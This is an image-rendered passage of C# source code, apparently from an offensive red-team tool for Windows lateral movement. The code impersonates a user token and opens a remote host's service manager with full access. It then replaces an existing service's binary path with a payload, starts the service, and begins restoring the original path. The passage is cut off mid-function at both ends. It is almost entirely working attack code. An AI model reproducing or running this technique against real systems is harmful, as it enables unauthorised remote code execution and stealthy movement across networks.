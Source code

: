 ```csharp
                }
                if (!ImpersonateLoggedOnUser(hToken))
                {
                    Console.WriteLine($"[-] ImpersonateLoggedOnUser failed: {GetLastError()}");
                    Environment.Exit(0);
                }
            }

            IntPtr SCMHandle = OpenSCManager(
                target,
                null,
                0xF003F); // SC_MANAGER_ALL_ACCESS

            IntPtr hService = OpenService(
                SCMHandle,
                svcName,
                0xF01FF); // SERVICE_ALL_ACCESS

            UInt32 bytesNeeded;
            bool res = QueryServiceConfig(hService, IntPtr.Zero, 0, out bytesNeeded);
            IntPtr ptr = Marshal.AllocHGlobal((int)bytesNeeded);
            res = QueryServiceConfig(hService, ptr, bytesNeeded, out bytesNeeded);
            QueryServiceConfigStruct qsc = new QueryServiceConfigStruct();
            Marshal.PtrToStructure(ptr, qsc);
            string origBinaryPath = qsc.lpBinaryPathName;
            Console.WriteLine($"[*] Extracted original service binary: \"{origBinaryPath}\"");

            res = ChangeServiceConfigA(
                hService,
                0xffffffff, // SERVICE_NO_CHANGE
                0x3,        // SERVICE_DEMAND_START
                0,          // SERVICE_NO_CHANGE
                payload,
                null,
                null,
                null,
                null,
                null,
                null);

            if (res)
            {
                Console.WriteLine("[+] Service binary changed successfully!");
            }
            else
            {
                Console.WriteLine($"[-] Failed changing service binary: {GetLastError()}");
            }

            res = StartService(hService, 0, null);
            Console.WriteLine($"[*] StartService terminated with return code {res} and error {GetLastError()}");

            res = ChangeServiceConfigA(
                hService,
                0xffffffff, // SERVICE_NO_CHANGE
                0x3,        // SERVICE_DEMAND_START
                0,          // SERVICE_NO_CHANGE
                origBinaryPath,
                null,
                null,
                null,
                null,
```